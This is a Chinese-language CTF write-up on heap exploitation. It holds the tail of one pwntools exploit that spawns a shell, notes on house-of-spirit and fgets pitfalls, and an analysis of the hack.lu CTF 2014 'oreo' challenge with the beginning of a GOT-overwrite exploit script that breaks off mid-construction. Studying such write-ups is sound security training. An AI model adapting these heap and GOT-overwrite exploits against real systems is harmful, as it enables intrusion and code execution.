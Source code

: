 ```python
payload=('/bin/sh\x00').ljust(8,'\x00')+p64(0x6020b8)
renew(1,payload)

deletebig()

p.interactive()

```


### house-of-spirit
> 这道题最烦的地方在于输入是使用 fgets() 读入的, 如果是用read读输入的话会容易很多很多
> fgets(ptr,n,fd) 特别的地方在于: 读取字符串时, 如果读入字符不超过n, 那么会在最后再加上一个'\x00',如果需要读入的字符超过n, 那么只会读 n-1 个,第 n 个会变为'\x00'
> 另外一个烦人的地方在于改谁的got为system(这是由于fgets这个操蛋的函数引起的一个问题,本来该4bytes就好了,但是fgets这个函数偏偏改多几个bytes,改变了相邻got项,导致函数定位错误)


#### hack.lu CTF 2014-OREO
##### 题目分析
1. 分配出来的chunk是同样大小的: 0x40; 并且串在一个单向不循环链表中
2. 在该链表上的指针可以被改变,但是有个操蛋的fgets函数,应该用name字段去改这个指针

##### 利用流程
1. leak出libc
2. malloc ---> bss
3. change scanf->got --> system 

##### exp
```python
#!/usr/bin/env python
from pwn import *

p=process('./oreo')
gdb.attach(p)
context.log_level='debug'

def add(name_payload,description_payload,i=0):
	p.sendline('1')
	p.sendline(name_payload)
	if i==0:
		p.sendline(description_payload)
	elif i==1:
		p.send(description_payload)

def show():
	p.sendline('2')
	
def clear():
	p.sendline('3')
	
def add_notice(notice_payload):
	p.sendline('4')
	p.sendline(notice_payload)

def print_record():
	p.sendline('5')


e=ELF('./oreo')
free_got=e.got['free']
puts_got=e.got['puts']

name='\x00'*(52-25)+p32(puts_got)
```